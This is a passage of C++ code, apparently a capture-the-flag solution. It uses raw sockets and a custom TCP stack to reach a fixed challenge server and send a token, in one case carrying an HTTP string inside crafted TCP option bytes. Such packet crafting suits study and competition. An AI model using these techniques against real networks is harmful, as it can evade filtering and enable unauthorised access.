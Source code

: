 ```c++
        memcpy(buf, buffer.data + sizeof(tcphdr), count - sizeof(tcphdr));
    }
};


int main(int argc, char *argv[]) {
    int flag = argc == 2 ? (int) strtol(argv[1], nullptr, 10) : 2;

    const char *const local_addr = "192.168.2.3";
    const char *const remote_addr = "202.38.93.111";
    const int local_port = random_port();
    const int remote_port = 18079 + flag;

    const char *token = getenv("TOKEN");
    char data[256], buffer[256] = {0};
    sprintf(data, "#POST / HTTP/1.1\r\nHost: 127.0.0.1\r\nContent-Length: %zu\r\n\r\n%s", strlen(token), token);

    printf("flag-%d:\n", flag);
    fflush(stdout);

    int fd = socket(AF_INET, SOCK_RAW, IPPROTO_TCP) | error("socket");
    auto protocol = tcp_custom(fd);

    protocol.bind(local_addr, local_port);
    protocol.connect(remote_addr, remote_port);

    switch (flag) {
        case 2:
            protocol.handshake();
            protocol.send_data(data, 1);
            protocol.recv_data(buffer);
            break;
        case 3:
            const char options[] = "\x00GET / HTTP\x00";
            protocol.set_options(options, sizeof(options) - 1);
            protocol.handshake();
            protocol.send_data(data + 1);
            protocol.recv_data(buffer);
            break;
    }

    printf("%s\n", buffer);
    fflush(stdout);

    if (flag == 2) {
        execl(RESTART, RESTART, "3", nullptr);
    }

    return 0;
}

```
